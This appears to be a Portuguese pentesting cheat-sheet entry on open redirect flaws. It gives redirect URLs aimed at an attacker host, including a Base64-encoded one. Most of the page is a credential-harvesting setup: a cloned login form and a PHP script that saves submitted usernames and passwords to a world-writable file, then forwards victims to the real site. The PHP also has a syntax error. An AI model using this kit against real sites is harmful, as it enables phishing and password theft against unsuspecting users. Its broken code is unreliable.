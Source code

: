 # Open Redirect

É uma vulnerabilidade que explora o redirecionamento de páginas internas ou externas, tomando controle do parâmetro que realiza o redirecionamento, enviando a vítima para outra página.

`http://www.alvo.com.br/redir.php?url=http://hacker.com.br/`

Em alguns casos a aplicação pode utilizar o valor do parâmetro codificado. Nesses casos é necessário descobrir qual a codificação usada e codificar os payloads no mesmo formato.

Exemplo de payload codificado em Base64:
`http://www.alvo.com.br/redir.php?url=aHR0cDovL2hhY2tlci5jb20uYnIv`

## PoC em página com formulário

Salve a pagina do alvo que contém o forumlário utilizando a opção Salvar Como (Ctrl+S) do navegador.
Na sua máquina inicie um servidor web e copie os arquivos da página salva anteriormente na raíz do servidor.
Edite o formulário da página baixada para redirecionar a ação de enviar os dados para a página login.php que será criada logo abaixo. Também crie o arquivo senhas.txt na raíz do servidor com permissão total (777).
Crie o payload em PHP com o nome login.php que irá gravar os dados recebidos em um arquivo e redirecionar o usuário para a página verdadeira.
```
<?php

$caixa1 = $_POST["login"] . "\n";
$caixa2 = $_POST["senha"] . "\n";

$file = fopen("senhas.txt","a");

$escrever1 = fwrite($file, $caixa1);
$escrever2 = fwrite($file, $caixa2);

fclose($file);

header("Location: http://www.alvo.com.br/)

?>
```
